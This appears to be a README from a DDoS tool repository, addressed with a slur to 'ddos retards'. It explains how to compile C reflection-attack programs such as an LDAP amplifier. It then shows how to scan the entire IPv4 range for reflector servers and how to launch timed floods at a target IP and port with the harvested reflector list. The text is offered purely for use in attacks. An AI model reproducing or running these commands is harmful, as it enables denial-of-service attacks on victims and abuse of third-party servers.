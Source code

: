# For ddos retards
# Enjoy
# >Commands< 
gcc -o NAME NAME.C -pthread

EX - gcc -o ldap ldap.c -pthread
# Scanning
./name 1.1.1.1 255.255.255.255 name.txt 2 1ms
./ldapscan 1.1.1.1 255.255.255.255 ldap.txt 2 1ms
1.1.1.1 defines starting range; 255.255.255.255 defines end scan range; the name.txt is the reflection file you are scanning
the (2) is the amount of threads this process takes to run
# Hit
./name IP PORT name.txt 2 -1 TIME
EX ./ldap 1.1.1.1 80 ldap.txt 2 -1 500
# :) 
